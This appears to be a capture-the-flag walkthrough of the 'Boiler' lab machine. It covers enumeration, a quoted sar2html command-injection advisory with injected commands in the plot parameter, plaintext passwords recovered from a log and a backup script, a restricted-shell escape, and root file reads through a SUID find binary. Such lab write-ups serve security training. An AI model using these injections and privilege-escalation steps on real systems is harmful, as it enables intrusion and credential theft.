

# Boiler CTF

Intermediate level CTF

## [Task 1] Questions #1

Intermediate level CTF. Just enumerate, you'll get there.

### #1 - File extension after anon login

The nmap full scan output:

~~~
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
~~~

`anon` refers to anonymous, for the FTP connection. Let's connect as `anonymous` and list the files:

~~~
$ ftp 10.10.127.30
Connected to 10.10.127.30 (10.10.127.30).
220 (vsFTPd 3.0.3)
Name (10.10.127.30:unknown): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10,10,14,231,166,133).
150 Here comes the directory listing.
226 Directory send OK.
~~~

Hum, nothing here, seriously? Let's show hidden files: 

~~~
ftp> ls -la
227 Entering Passive Mode (10,10,14,231,191,194).
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
227 Entering Passive Mode (10,10,14,231,194,215).
150 Opening BINARY mode data connection for .info.txt (74 bytes).
226 Transfer complete.
74 bytes received in 0.000871 secs (84.96 Kbytes/sec)
ftp> quit
221 Goodbye.
~~~

This time, there is a `.info.txt` file (the extension is `txt`, to answer the question). Let's see what the file is.

~~~
$ file .info.txt 
.info.txt: ASCII text
$ cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
~~~

The secret message is `	Just wanted to see if you find it. Pop. Remember: Enumeration is the key!` (decrypted with https://quipqiup.com/).

Answer: `txt`

### #2 - What is on the highest port?

`SSH` is running on the highest port (`55007/tcp`).

Answer: `ssh`

### #3 - What's running on port 10000?

When connecting to http://10.10.127.30:10000/, we are told that the service runs on https. Connecting to https://10.10.127.30:10000/ shows an authentication form to Webmin.

Answer: `webmin`

### #4 - Can you exploit the service running on that port? (yay/nay answer)

Answer: `nay`

### #5 - What's CMS can you access?

#### robots.txt

There is a `robots.txt` file:

~~~
$ curl http://10.10.127.30/robots.txt
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
~~~

None of the URL exists. What about the encoded string?

~~~
$ python
>>> a = "079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075"
''.join([chr(int(i)) for i in a.split(' ')])
>>> ''.join([chr(int(i)) for i in a.split(' ')])
'OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK'
>>> import base64
>>> base64.b64decode(_)
b'99b0660cd95adea327c54182baa51584\n'
~~~

The MD5 hash (`99b0660cd95adea327c54182baa51584`) is corresponding to the string `kidding`. This URL does not exist either.

#### Gobuster

The `robots.txt` was a wrong track. Let's brute force the discovery with gobuster:

~~~
 gobuster dir -u http://10.10.127.30 -w /data/src/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.127.30
[+] Threads:        10
[+] Wordlist:       /data/src/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/11 20:45:02 Starting gobuster
===============================================================
/manual (Status: 301)
/joomla (Status: 301)
...[SNIP]...
~~~

Joomla, that's likely the CMS we are looking for!

Answer: `joomla`

### #6 - Keep enumerating, you'll know when you find it.

*Hint: List & read, don't reverse*

Joomla has an administration part, available by appending `/administrator` to the URL (http://10.10.127.30/joomla/administrator/).

### #7 - The interesting file name in the folder?

### dirsearch

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.127.30/joomla/ -E -w /data/src/wordlists/directory-list-2.3-medium.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 220529

Error Log: /data/src/dirsearch/logs/errors-20-05-12_13-48-36.log

Target: http://10.10.127.30/joomla/

[13:48:36] Starting: 
[13:48:37] 301 -  322B  - /joomla/images  ->  http://10.10.127.30/joomla/images/
[13:48:37] 200 -   12KB - /joomla/
[13:48:37] 301 -  321B  - /joomla/media  ->  http://10.10.127.30/joomla/media/
[13:48:37] 301 -  325B  - /joomla/templates  ->  http://10.10.127.30/joomla/templates/
[13:48:38] 301 -  323B  - /joomla/modules  ->  http://10.10.127.30/joomla/modules/
[13:48:39] 403 -  299B  - /joomla/.hta
[13:48:39] 301 -  324B  - /joomla/_archive  ->  http://10.10.127.30/joomla/_archive/
[13:48:39] 301 -  325B  - /joomla/_database  ->  http://10.10.127.30/joomla/_database/
[13:48:39] 301 -  322B  - /joomla/_files  ->  http://10.10.127.30/joomla/_files/
[13:48:39] 301 -  321B  - /joomla/_test  ->  http://10.10.127.30/joomla/_test/
[13:48:39] 301 -  321B  - /joomla/tests  ->  http://10.10.127.30/joomla/tests/
[13:48:39] 301 -  319B  - /joomla/bin  ->  http://10.10.127.30/joomla/bin/
[13:48:40] 301 -  323B  - /joomla/plugins  ->  http://10.10.127.30/joomla/plugins/
[13:48:41] 301 -  324B  - /joomla/includes  ->  http://10.10.127.30/joomla/includes/
[13:48:42] 301 -  324B  - /joomla/language  ->  http://10.10.127.30/joomla/language/
[13:48:43] 301 -  326B  - /joomla/components  ->  http://10.10.127.30/joomla/components/
[13:48:43] 301 -  321B  - /joomla/cache  ->  http://10.10.127.30/joomla/cache/
[13:48:44] 301 -  325B  - /joomla/libraries  ->  http://10.10.127.30/joomla/libraries/
[13:48:51] 301 -  328B  - /joomla/installation  ->  http://10.10.127.30/joomla/installation/
[13:48:53] 301 -  321B  - /joomla/build  ->  http://10.10.127.30/joomla/build/
[13:48:55] 301 -  319B  - /joomla/tmp  ->  http://10.10.127.30/joomla/tmp/
[13:48:57] 301 -  323B  - /joomla/layouts  ->  http://10.10.127.30/joomla/layouts/
[13:49:08] 301 -  329B  - /joomla/administrator  ->  http://10.10.127.30/joomla/administrator/
[13:50:31] 301 -  319B  - /joomla/cli  ->  http://10.10.127.30/joomla/cli/

Task Completed
~~~

#### Wrong tracks

~~~
$ curl -s http://10.10.115.78/joomla/_files/ | html2text 
# VjJodmNITnBaU0JrWVdsemVRbz0K
$ echo "VjJodmNITnBaU0JrWVdsemVRbz0K" | base64 -d | base64 -d
Whopsie daisy
~~~

~~~
$ curl -s http://10.10.127.30/joomla/~www/ | html2text 
#  Mnope, nothin to see.
$ curl -s http://10.10.127.30/joomla/_archive/ | html2text 
#  Mnope, nothin to see.
~~~

~~~
unknown@localhost:/data/src/wordlists$ curl -s http://10.10.127.30/joomla/_database/ | html2text 
# Lwuv oguukpi ctqwpf.
~~~
which decodes to `Time command spring` (https://quipqiup.com/). Nothing interesting.

#### sar2html

sar2html
http://10.10.127.30/joomla/_test/

Looking for information on `sar2html` on Google, I found this: https://packetstormsecurity.com/files/153858/Sar2HTML-3.2.1-Remote-Command-Execution.html:

~~~
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
~~~

Command `;ls -l`
~~~
total 116
-rwxr-xr-x 1 www-data www-data 53430 Aug 22  2019 index.php
-rwxr-xr-x 1 www-data www-data   716 Aug 21  2019 log.txt
-rwxr-xr-x 1 www-data www-data 53165 Mar 19  2019 sar2html
drwxr-xr-x 3 www-data www-data  4096 Aug 22  2019 sarFILE
~~~

Command `;cat log.txt`
~~~
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
~~~

Let's try to connect over ssh (running on port `55007`) with:
* username: `basterd`
* password: `superduperp@$$`

It works, we now have a ssh access.

Answer: `log.txt`

## [Task 1] Questions #1

You can complete this with manual enumeration, but do it as you wish

## #1 - Where was the other users pass stored(no extension, just the name)?

We are now connected over SSH with a customized shell. Let's escape it:

~~~
$ /bin/bash 
basterd@Vulnerable:/home$ 
~~~

`basterd` is not in the sudoers:

~~~
basterd@Vulnerable:/usr/local$ sudo -l
[sudo] password for basterd: 
Sorry, user basterd may not run sudo on Vulnerable.
~~~

~~~
basterd@Vulnerable:/home$ ls -l
total 8
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 basterd
drwxr-x--- 3 stoner  stoner  4096 Aug 22  2019 stoner
basterd@Vulnerable:/home$ cd stoner/
bash: cd: stoner/: Permission denied
basterd@Vulnerable:/home$ cd basterd/
basterd@Vulnerable:~$ ls -ila
total 16
146309 drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
130050 drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
278584 -rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
151978 -rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
130915 drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
~~~

~~~
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE

if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
	     echo "Begining copy of" $i  >> $LOG
	     scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
	     echo $i "completed" >> $LOG
		
		if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
		    rm $SOURCE/$i
		    echo $i "removed" >> $LOG
		    echo "####################" >> $LOG
				else
					echo "Copy not complete" >> $LOG
					exit 0
		fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
~~~

The backup script discloses the password for the `stoner` user:
* username: `stoner`
* password: `superduperp@$$no1knows`

Answer: `backup`

## #2 - user.txt

Now we can login as `stoner`:

~~~
basterd@Vulnerable:/usr/local$ su - stoner
Password: 
stoner@Vulnerable:~$ whoami
stoner
stoner@Vulnerable:~$ cd 
stoner@Vulnerable:~$ ls -ila
total 16
130093 drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
130050 drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
151986 drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
279807 -rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
~~~

Answer: `You made it till here, well done.`

## #3 - What did you exploit to get the privileged user?

Let's list our privileges:

~~~
stoner@Vulnerable:/home$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
~~~

OK, wrong track. Let's see what executables are owned by root and have the SUID bit set:

~~~
$ find / -user root -perm -4000 -executable -type f 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
~~~

Oh oh... `find` is on the list. This command allows to execute actions, let's exploit this.

Answer: `find`

## #4 - root.txt

~~~
stoner@Vulnerable:/$ find /root -exec ls /root \;
root.txt
root.txt
stoner@Vulnerable:/$ find /root -exec cat /root/root.txt \;
It wasn't that hard, was it?
It wasn't that hard, was it?
~~~

Answer: `It wasn't that hard, was it?`